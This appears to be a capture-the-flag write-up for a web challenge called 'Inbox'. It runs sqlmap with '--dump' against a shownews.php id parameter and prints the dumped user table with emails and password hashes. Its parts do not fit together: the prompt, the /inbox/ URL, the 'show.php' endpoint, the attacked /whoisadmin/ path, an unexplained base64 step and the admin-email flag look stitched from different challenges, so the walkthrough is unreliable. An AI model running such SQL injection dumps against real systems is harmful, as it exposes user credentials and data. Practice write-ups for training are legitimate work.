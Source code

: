 ## Inbox
```
The developer emailed the flag to the admin , can you get it.
```
- Link: http://ec2-18-192-3-151.eu-central-1.compute.amazonaws.com/inbox/


#### Solve:

- Steps

    - After going to the site, I took a tour in it. I noticed in the source code that there is an API *"show.php"* that show the content of a message by an *id* without any type of authentication.

    - Let's hop on the terminal and fire up *sqlmap*:
        ```commandline
        sqlmap -u http://18.192.3.151/whoisadmin/shownews.php?id=1 --dump
        ```
      
    - After waiting sometime, sqlmap was able to detect the back-end DBS:
        ```
        [12:33:10] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite' it looks like the back-end DBMS is 'SQLite'.
        ```
   
    - *sqlmap* was able to identify and fetch the table:
        ```
        ...
        [12:38:28] [INFO] fetching tables for database: 'SQLite_masterdb'
        [12:38:28] [INFO] fetching columns for table 'nxf8_users' in database 'SQLite_masterdb'
        [12:38:28] [INFO] fetching entries for table 'nxf8_users' in database 'SQLite_masterdb'
        [12:38:29] [INFO] recognized possible password hashes in column 'password'
        ...
        ```
      
    - Decode the base64 chunk *Q3liZXItVGFsZW50*:
        ```
        ...
        William   | user  | william@secret.org   | 0dc072aeaa2b7e4eecd636abb4fc535dd63342b8 |
        Ryan      | admin | ryan@secret.org      | 14c2fd1229d3b09afdfc9583b46640c57c5f40e1 |
        Shila     | user  | shila@secret.org     | ...
        ...
        ```
    - We can see that the admin's name is *Ryan* and his email is: ryan@secret.org

> **Flag: ryan@secret.org**